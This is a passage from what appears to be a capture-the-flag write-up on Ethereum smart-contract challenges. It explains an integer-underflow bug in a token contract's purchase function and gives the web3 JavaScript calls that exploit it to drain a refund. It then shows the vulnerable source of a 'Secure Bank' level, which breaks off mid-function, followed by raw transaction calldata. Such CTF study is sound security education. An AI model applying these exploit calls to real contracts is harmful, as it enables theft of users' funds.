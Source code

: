 This challenge was far trickier then first three. Key is in `purchaseTokens` function, `balances[msg.sender] += _value - feeAmount;`.
Only check made is that value is not 0, so by sending very small value we can actually underflow our balance.
After setting up contract variable our solution is (just remember to double required amount of eth since it's divided by 2 before transfer):

~~~javascript
web3.eth.sendTransaction({from:web3.eth.defaultAccount ,to:tokenContractAddress, value: web3.toWei(0.000009)}, (err,res)=>{console.log(err,res);})
contract.refundTokens(web3.toWei(0.600018), function(err,ok) { console.log(err,ok) } )
~~~

## Lvl 5 Secure Bank

~~~solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";

contract SimpleBank is CtfFramework{
    mapping(address => uint256) public balances;

    constructor(address _ctfLauncher, address _player) public payable
        CtfFramework(_ctfLauncher, _player)
    {
        balances[msg.sender] = msg.value;
    }

    function deposit(address _user) public payable ctf{
        balances[_user] += msg.value;
    }

    function withdraw(address _user, uint256 _value) public ctf{
        require(_value<=balances[_user], "Insufficient Balance");
        balances[_user] -= _value;
        msg.sender.transfer(_value);
    }

    function () public payable ctf{
        deposit(msg.sender);
    }

}

contract MembersBank is SimpleBank{
    mapping(address => string) public members;

    constructor(address _ctfLauncher, address _player) public payable
        SimpleBank(_ctfLauncher, _player)
    {
    }

    function register(address _user, string _username) public ctf{
        members[_user] = _username;
    }

    modifier isMember(address _user){
        bytes memory username = bytes(members[_user]);
        require(username.length != 0, "Member Must First Register");
        _;
    }

    function deposit(address _user) public payable isMember(_user) ctf{
~~~

[0]:  0000000000000000000000002272071889edceacabce7dfec0b1e017c6cad120
[1]:  0000000000000000000000000000000000000000000000000000000000000040
[2]:  0000000000000000000000000000000000000000000000000000000000000005
[3]:  456f733932000000000000000000000000000000000000000000000000000000
[0]:  0000000000000000000000002272071889edceacabce7dfec0b1e017c6cad120
[1]:  000000000000000000000000000000000000000000000000058d15e176280000